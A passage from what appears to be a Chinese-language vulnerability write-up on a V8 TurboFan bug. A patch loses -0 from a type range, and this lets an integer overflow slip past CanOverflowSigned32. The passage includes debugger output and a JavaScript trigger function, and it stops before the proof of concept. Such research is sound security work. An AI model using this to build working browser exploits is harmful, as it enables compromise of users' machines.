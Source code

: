 主要是下面这里做`Intersect`时，将出现问题，因为`-0`不属于`Type::Signed32()`类型

```
196   left = Type::Intersect(left, Type::Signed32(), type_zone);
   197   right = Type::Intersect(right, Type::Signed32(), type_zone);
 ► 198   if (left.IsNone() || right.IsNone()) return false;
```

正常情况下，结果是这样的

```
193   if (right.Maybe(Type::MinusZero())) `{`
   194     right = Type::Union(right, type_cache-&gt;kSingletonZero, type_zone);
   195   `}`
   196   left = Type::Intersect(left, Type::Signed32(), type_zone);
   197   right = Type::Intersect(right, Type::Signed32(), type_zone);
 ► 198   if (left.IsNone() || right.IsNone()) return false;
   199   switch (op-&gt;opcode()) `{`
   200     case IrOpcode::kSpeculativeSafeIntegerAdd:
   201       return (left.Max() + right.Max() &gt; kMaxInt) ||
   202              (left.Min() + right.Min() &lt; kMinInt);
   203 
pwndbg&gt; p left.Min()
$9 = -1
pwndbg&gt; p left.Max()
$10 = 0
```

patch以后结果是这样的

```
pwndbg&gt; p left.Min()
$1 = -1
pwndbg&gt; p left.Max()
$3 = -1
```

即`-0`丢失了,`x`由`Range(-1,-0)`变成了`Range(-1,-1)`，显然，这将导致溢出检测出现问题，我们直接继续修改测试用例，将加法改成减法,那么`Range(-1,-1)-Range(-0x80000000,2)`显然没有超过`int32`，于是`CanOverflowSigned32`返回`false`，没有检查出溢出。

```
function opt(b) `{`
  var x = b ? -1 : -0;
  var y = b ? 2 : -0x80000000;
  var i = x - y;
  return i;
`}`

for (var i=0;i&lt;0x10000;i++) `{`
   opt(true);
`}`

print(opt(false));
```

虽然输出的值仍然是`2147483648`，但实际上，cpu溢出标志位已经被设置，因此如果我们使用`==`与`-0x80000000`，将返回`true`，正常情况下是`false`。于是构造POC如下
